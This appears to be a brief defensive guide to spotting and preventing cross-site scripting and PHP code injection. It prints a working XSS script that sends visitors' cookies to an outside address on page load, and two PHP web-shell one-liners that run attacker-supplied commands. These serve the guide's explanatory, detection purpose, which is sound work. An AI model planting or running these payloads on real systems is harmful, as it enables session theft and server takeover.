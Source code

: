 While inspecting HTTP requests, an unusual volume of requests directed to an unknown internal "server" may indicate potential XSS activity. For example, in some cases, this behavior could involve cookies or tokens being exfiltrated, although these values may be encoded or encrypted during transit.

---

## Cross-Site Scripting (XSS)

XSS occurs when an attacker injects malicious JavaScript or script code into a webpage, typically through user input fields. When other users load the page, their browsers execute this code, allowing attackers to steal sensitive information like cookies, tokens, and session values.

### Example of XSS Payload

In an XSS attack, injected code might resemble the following script in a user comment section:
```javascript
<script>
  window.addEventListener("load", function() {
    const url = "http://192.168.0.19:5555";
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const request = new XMLHttpRequest();
    request.open("GET", url + "?" + params);
    request.send();
  });
</script>
```

If detected, remove the injected script immediately, and consider temporarily taking down the server to resolve the vulnerability.

---

## Code Injection

Attackers may also attempt to inject malicious code into fields that interpret PHP or other executable code. This tactic allows them to gain command and control over the server.

### Examples of PHP Code Injection

1. **Command Execution with PHP**:
   ```php
   <?php system($_GET['cmd']); ?>
   ```

2. **Single Command Execution**:
   ```php
   <?php echo `whoami`; ?>
   ```

If detected, these code snippets should be removed immediately, and steps taken to prevent further injections.

---

## Preventing XSS and Code Injection

To prevent XSS and code injection attacks:
- **Sanitize User Input**: Filter and sanitize all inputs to disallow harmful scripts or commands.
- **Avoid Executing User Input as Code**: Never process or interpret user-provided input as executable code, which could enable code execution vulnerabilities.